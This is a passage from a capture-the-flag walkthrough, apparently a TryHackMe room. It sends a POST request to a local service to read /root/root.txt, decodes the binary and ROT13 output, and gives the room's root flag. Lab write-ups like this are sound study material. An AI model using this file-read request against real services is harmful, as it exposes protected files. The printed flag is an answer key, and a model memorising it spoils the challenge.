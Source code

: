We could use some [pivoting techniques][2] but that won't be necessary here as
the case is very simple.

```plaintext
sh-4.4$ curl http://127.0.0.1:6666 -s -X POST --data 'filename=/root/root.txt'
...
<pre class="page-header">
1010100 1001000 1001101 1111011 1101101 1100001 1100111 1101001 1100011 1011111 1101101 1100001 1111001 1011111 1101101 1100001 1101011 1100101 1011111 1101101 1100001 1101110 1111001 1011111 1101101 1100101 1101110 1011111 1101101 1100001 1100100 1111101 1010
</pre>
...
```

Decoding the binary gave nothing, I tried a second type and got a flag
encoded with caesar cipher: `GUZ{zntvp_znl_znxr_znal_zra_znq}`.

I decoded it with [ctf-party][3].

```ruby
ctf_party_console
irb(main):001:0> 'GUZ{zntvp_znl_znxr_znal_zra_znq}'.rot13
=> "THM{edited}"
```

root flag: {% spoiler `THM{magic_may_make_many_men_mad}` %}

